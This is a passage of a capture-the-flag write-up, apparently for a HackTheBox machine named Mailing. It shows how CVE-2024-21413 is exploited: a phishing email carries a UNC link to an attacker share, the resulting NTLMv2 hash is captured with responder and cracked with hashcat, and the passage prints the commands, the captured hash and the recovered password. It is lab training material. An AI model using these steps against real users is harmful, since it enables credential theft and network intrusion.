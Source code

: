 The exploit works by sending an email with a link which is a url to a network
share. When Windows accesses network shares it sends NTLMv2 hashes. The hashes
can then be cracked. To collect the hashes, start `responder` on kali which is a
tool to spoof and intercept on local networks which have windows devices.

The receiver email (maya) can be found from the homepage of mailing.htb as some
names are mentioned there.

```bash
sudo responder -I tun0
python CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\10.10.14.120\test\meeting" --subject "XD"
```

Got the hash

```
[SMB] NTLMv2-SSP Client   : 10.10.11.14
[SMB] NTLMv2-SSP Username : MAILING\maya
[SMB] NTLMv2-SSP Hash     : maya::MAILING:704122a9fd4066f0:0BD8D5929FFED3123536FADB0E9716DC:0101000000000000000AD925CEBFDA01896D1A68678CCBC30
00000000200080041004E003200580001001E00570049004E002D0054005100550035003300580033004F0056003900480004003400570049004E002D00540051005500350033
00580033004F005600390048002E0041004E00320058002E004C004F00430041004C000300140041004E00320058002E004C004F00430041004C000500140041004E003200580
02E004C004F00430041004C0007000800000AD925CEBFDA0106000400020000000800300030000000000000000000000000200000546114653E376B3746977B94D57BF983D88C
28322A013284BAB9495EFDC9433D0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E00310032003
000000000000000000000
```

put the hash in `hashes.txt` file
Cracked the hash

```bash
hashcat hashes.txt /usr/share/wordlists/rockyou.txt
```

```
MAYA::MAILING:704122a9fd4066f0:0bd8d5929ffed3123536fadb0e9716dc:0101000000000000000ad925cebfda01896d1a68678ccbc3000000000200080041004e0032005
80001001e00570049004e002d0054005100550035003300580033004f0056003900480004003400570049004e002d0054005100550035003300580033004f005600390048002e
0041004e00320058002e004c004f00430041004c000300140041004e00320058002e004c004f00430041004c000500140041004e00320058002e004c004f00430041004c00070
00800000ad925cebfda0106000400020000000800300030000000000000000000000000200000546114653e376b3746977b94d57bf983d88c28322a013284bab9495efdc9433d
0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100320030000000000000000000:m4y4ngs4
ri
```

So the creds are `maya:m4y4ngs4ri`

Turns out I had missed some ports in the nmap scan

